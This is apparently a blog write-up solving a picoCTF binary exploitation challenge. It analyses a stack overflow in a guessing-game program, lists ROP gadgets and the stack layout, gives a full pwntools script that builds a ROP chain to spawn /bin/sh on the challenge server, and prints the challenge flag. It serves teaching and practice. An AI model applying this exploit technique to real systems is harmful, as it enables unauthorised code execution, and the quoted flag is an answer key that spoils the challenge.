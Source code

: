 # Blog
https://frc6.com/index.php/archives/45/

# Question
### Source
https://play.picoctf.org/events/3/challenges/challenge/90
### Description
I made a simple game to show off my programming skills. See if you can beat it!
[Gussing Game 1.zip][1]
`nc jupiter.challenges.picoctf.org 50583`

# Tools
IDA

VM - Kali Linux

Python

ROPgadget

# Analysis
## Knowledge points
Binary Exploitation

Return-oriented programming (ROP)

The goal of the Challenge Question is to run `execve("/bin/sh",NULL,NULL)` on the remote server.

Tips: No shellcode b/c NX is enabled: you cannot execute stack

## vuln
Analysis vuln.c and found that there is a **Stack Overflow Vuln**: 

    void win() {
        char winner[BUFSIZE];
        printf("New winner!\nName? ");
        fgets(winner, 360, stdin);//overflow vuln
        printf("Congrats %s\n\n", winner);
    }
Grabbing control of `eip` by taking advantage of the vuln to let the program Stack Overflow.

## Gadgets
Run the following commands:

    ROPgadget --binary vuln --only "pop|ret"
    ROPgadget --binary vuln --only "mov|ret"
    ROPgadget --binary vuln --only "syscall|ret"

Do ROP to achieve the goal—`execve("/bin/sh",NULL,NULL)`—by using the following gadgets:

    0x00000000004163f4 : pop rax ; ret
    0x000000000044a6b5 : pop rdx ; ret
    0x0000000000400696 : pop rdi ; ret
    0x0000000000436393 : mov qword ptr [rdi], rdx ; ret
    0x000000000044cc49 : pop rdx ; pop rsi ; ret
    0x000000000040137c : syscall

## Disassembly

### do_stuff()
Input the Gussing Number "84" for the first time (you only need one time if you guess correct so you can access to win() function)

Q: Why "84"

A: Dynamic debugging (IDA debugger or GDB)

Set a breakpoint at the following position:

    .text:0000000000400BBC                 mov     [rbp+var_ans], rax

`rax` will be equal to 84

### win()
    .text:0000000000400C40                 public win
    .text:0000000000400C40 win             proc near               ; CODE XREF: main+70↓p
    .text:0000000000400C40
    .text:0000000000400C40 winner          = byte ptr -70h
    .text:0000000000400C40
    .text:0000000000400C40 ; __unwind {
    .text:0000000000400C40                 push    rbp
    .text:0000000000400C41                 mov     rbp, rsp
    .text:0000000000400C44                 sub     rsp, 70h
    .text:0000000000400C48                 lea     rdi, aNewWinnerName ; "New winner!\nName? "
    .text:0000000000400C4F                 mov     eax, 0
    .text:0000000000400C54                 call    printf
    .text:0000000000400C59                 mov     rdx, cs:stdin
    .text:0000000000400C60                 lea     rax, [rbp+winner]
    .text:0000000000400C64                 mov     esi, 168h
    .text:0000000000400C69                 mov     rdi, rax
    .text:0000000000400C6C                 call    fgets
    .text:0000000000400C71                 lea     rax, [rbp+winner]
    .text:0000000000400C75                 mov     rsi, rax
    .text:0000000000400C78                 lea     rdi, aCongratsS ; "Congrats %s\n\n"
    .text:0000000000400C7F                 mov     eax, 0
    .text:0000000000400C84                 call    printf
    .text:0000000000400C89                 nop
    .text:0000000000400C8A                 leave
    .text:0000000000400C8B                 retn
    .text:0000000000400C8B ; } // starts at 400C40
    .text:0000000000400C8B win             endp

The return address of the function is stored at `rbp+8`, so overwrite it by overflowing the stack

## ROP: Gadgets
We are planning to run the following assembly code after win() return.

    ret        (retn of win() at .text:0000000000400C8B)
    pop rax
    ret
    pop rdx
    ret
    pop rdi
    ret
    mov qword ptr [rdi], rdx
    ret
    pop rdx
    pop rsi
    ret
    syscall

In order to run `execve("/bin/sh",NULL,NULL)` successfully, `rax` should be equal to 59 durning `syscall` is running, `rdi` should be the pointer of "/bin/sh", and `rsi` and `rdx` should be equal to 0 (NULL).

So, we should let the Stack like this:

    rbp+8		0x00000000004163f4			Address of one of Gadget
    rbp+10h		59					rax
    rbp+18h		0x000000000044a6b5			Address of one of Gadget			
    rbp+20h		"/bin/sh"				rdx (temporary use; will be overwrite later)
    rbp+28h		0x0000000000400696			Address of one of Gadget
    rbp+30h		0x00000000006BA770			rdi
    rbp+38h		0x0000000000436393			Address of one of Gadget
    rbp+40h		0x000000000044cc49			Address of one of Gadget
    rbp+48h		0					rdx
    rbp+50h		0					rsi
    rbp+58h		0x000000000040137c			syscall

## Remote to Find Flag: Python

Run the following Python program:

    from pwn import *
    
    sh = remote('jupiter.challenges.picoctf.org',50583)
    
    p = make_packer('all', endian='big', sign='unsigned')
    p64 = make_packer(64, endian='little', sign='unsigned')
    
    payload = p(0x90)*(0x70+8)	#rbp-70h
    payload += p64(0x4163f4)	#rbp+8h
    payload += p64(59)			#rbp+10h
    payload += p64(0x44a6b5)	#rbp+18h
    payload += p(0x2F62696E2F736800)	#rbp+20h
    payload += p64(0x400696)	#rbp+28h
    payload += p64(0x6BA770)	#rbp+30h
    payload += p64(0x436393)	#rbp+38h
    payload += p64(0x44cc49)	#rbp+40h
    payload += p64(0)			#rbp+48h
    payload += p64(0)			#rbp+50h
    payload += p64(0x40137c)	#rbp+58h
    
    sh.recvuntil('guess?\n')
    sh.sendline(p(0x3834))#84
    
    sh.recvuntil('\nName? ')
    sh.sendline(payload)
    
    sh.interactive()

![result.png][2]

So the Flag is `picoCTF{r0p_y0u_l1k3_4_hurr1c4n3_1ed68bc5575f6be1}`

  [1]: https://frc6.com/usr/uploads/2020/10/2453405697.zip
  [2]: https://frc6.com/usr/uploads/2020/10/1353396828.png
